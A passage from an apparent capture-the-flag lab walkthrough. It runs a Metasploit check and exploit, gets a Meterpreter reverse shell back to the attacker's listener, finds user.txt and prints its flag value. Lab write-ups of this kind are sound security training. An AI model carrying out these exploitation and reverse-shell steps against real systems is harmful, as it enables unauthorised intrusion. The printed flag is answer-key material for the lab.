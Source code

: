 `> check`

```bash
[+] 10.129.42.249 - The target is vulnerable.
```
Perfect! Our machine seems to be vulnerable

Keep in mind that not all metasploit modules support the ``check`` feature , but it is always a nice thing to have.

Now that we are all set, let's hit the big red button by typing

``> run``

```bash
[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Sending stage (39860 bytes) to 10.129.42.249
[*] Meterpreter session 1 opened (10.10.14.115:4444 -> 10.129.42.249:53132) at 2022-06-10 17:52:12 -0700

meterpreter > 
```
Great, we now have a meterpreter shell on the machine and can execute commands.

Let's move on to our post exploitation procedure.
## Post Exploitation - Finding the user.txt flag
After gaining a foothold, we are asked to find and submit the contents of **user.txt** as a flag.

Now that we have a meterpreter shell in the machine, let's type the following command to drop into a system command shell.

`> shell`

After this, to make our lives easier we can simply run a command to search for the user.txt file instead of having to look for it to manually by navigating through the system directories. 

```bash
> find / -iname user.txt 2>/dev/null
/home/mrb3n/user.txt
```

Now we navigate to the given file by `cd /home/mrb3n` . Running `ls` confirms that our file is indeed in the direcotry , so we proceed by opening it.

```bash
cd /home/mrb3n                                                                                                                                        
ls                                                                                                                                                    
user.txt                                                                                                                                              
cat user.txt                                                                                                                                          
7002d65b149b0a4d19132a66feed21d8
```
And there is our first flag. ==7002d65b149b0a4d19132a66feed21d8== are the contents of the **user.txt** file.
